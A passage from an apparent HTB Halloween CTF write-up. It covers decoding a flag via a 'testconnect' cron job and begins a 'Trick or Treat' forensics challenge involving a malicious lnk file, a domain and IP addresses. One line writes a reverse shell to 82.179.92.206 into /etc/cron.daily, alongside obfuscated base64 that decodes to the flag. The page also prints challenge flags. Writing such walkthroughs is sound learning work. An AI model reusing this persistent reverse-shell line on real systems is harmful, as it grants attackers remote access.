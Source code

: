 ![vul5](/assets/posts/htboo2023/vul5.png)

At this point, I was stuck and required help from the HTB writeup. I found out that to retrieve the flag was to decode the URL using the `testconnect` cron job again.
```
echo "sh -i >& /dev/tcp/82.179.92.206/7331 0>&1" > /etc/cron.daily/testconnect && Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo $Mz$Tz$Vz$az$Kz$Oz|base64 -d|rev
```

![vul6](/assets/posts/htboo2023/vul6.png)

## Scenario (Competition Challenges)
> Are you afraid of the dark? <br><br>
A fog begins to hang over the villagers, as the denizens of the night have sensed their location deep in the forest. Tooth, claw, and hoof press forward to devour their prey.A grim future awaits our stalwart storytellers. It’s up to you, slayers! <br><br>
Crush this CTF and save the villagers from their peril. Beware! You won't be getting any help here...

### Trick or Treat [Forensics]
Question: Another night staying alone at home during Halloween. But someone wanted to play a Halloween game with me. They emailed me the subject "Trick or Treat" and an attachment. When I opened the file, a black screen appeared for a second on my screen. It wasn't so scary; maybe the season is not so spooky after all.

Flag: `HTB{s4y_Pumpk1111111n!!!}`

We are a pcap file and a malicious lnk file called `trick_or_treat.lnk`. Analyzing the malicious file on VirusTotal, it shows a connection was made to a domain called `windowsliveupdater.com`. We also can notice connections made to several IP addresses, mainly `209.197.3.8`.
